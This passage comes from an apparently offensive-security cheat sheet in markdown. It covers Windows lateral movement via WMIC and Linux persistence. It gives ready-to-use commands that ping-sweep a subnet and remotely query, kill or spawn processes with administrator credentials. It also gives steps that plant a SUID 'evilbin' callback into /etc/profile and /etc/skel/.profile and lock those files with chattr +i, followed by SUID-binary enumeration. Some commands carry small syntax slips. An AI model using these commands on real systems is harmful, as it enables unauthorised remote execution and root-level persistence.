 Ping sweep a range and then run the command: 
&nbsp;&nbsp;&nbsp;&nbsp;<code>for /L %i in (1,1,254) do @echo %i && @ping –n 1 x.x.x.%i | find /I “reply” && @wmic /node:x.x.x.%i /user:administrator /password:adminpassword computersystem get username</code>

*Note: If the password switch fails, omit it, and type in the pw interactively.*

### Remotely terminate processes (windows)
If rpc ports are open and you have a valid admin level account on the windows system or domain you can remotely run commands, like terminated processes

&nbsp;&nbsp;&nbsp;&nbsp;<code>wmic /node:x.x.x.%i /user:administrator /password:adminpassword process where "name like '%calc.exe%'" call terminate</code>

*Note: If the password switch fails, omit it, and type in the pw interactively.*

### Remotely create processes (windows)
If rpc ports are open and you have a valid admin level account on the windows system or domain you can remotely run commands, non-interactive processes (no gui)

&nbsp;&nbsp;&nbsp;&nbsp;<code>wmic /node:x.x.x.%i /user:administrator /password:adminpassword process call create \\path\to\app</code>

&nbsp;&nbsp;&nbsp;&nbsp;<code>wmic /node:x.x.x.%i /user:administrator /password:adminpassword process call create 'cmd.exe /c [command]' </code>

&nbsp;&nbsp;&nbsp;&nbsp;<code>wmic /node:x.x.x.%i /user:administrator /password:adminpassword process call create 'cmd.exe /c [command] >> \\your\writeable\share\restults.txt' </code>*to view results from your command (if needed) you need to send the results to a share*

*Note: If the password switch fails, omit it, and type in the pw interactively.*

### Compromising the linux user creation process
You can modify a few files and directories to get code execution anytime a new user is created - remember root or a super user is needed to create an account so whatever you add gets executed as root or a super user. You can also modify the account profiles, including bashrc if you want to set new aliases or functions for example. 

Adding a malicious bin (callback would be good) file to be called during the user creation process:

 1. Copy your bin file to the system somewhere in the normal path locations like /usr/bin
 2. <code>echo "usr/bin/evilbin" &" >> /etc/profile</code> *adds line in profile script to run our evil bin*
 3. <code>echo "usr/bin/evilbin" &" >> /etc/skel/.profile</code> *adds line in skel outline .profile script to run our evil bin. /etc/skel is what is copied to all new users' home directories upon creation*
 4. <code> chmod u+s /usr/bin/evilbin & chmod u+x /usr/bin/evilbin</code>*sets suid and execute permissions on the evilbin*
 5. <code> chattr +i /etc/skel/.profile /etc/profile /usr/bin/evilbin</code>

### Enum for setuid binaries on linux
&nbsp;&nbsp;&nbsp;&nbsp;<code>find / -perm -4000 -type f 2>/dev/null</code>

&nbsp;&nbsp;&nbsp;&nbsp;<code>find / perm -u=s -type f 2>/dev/null</code>
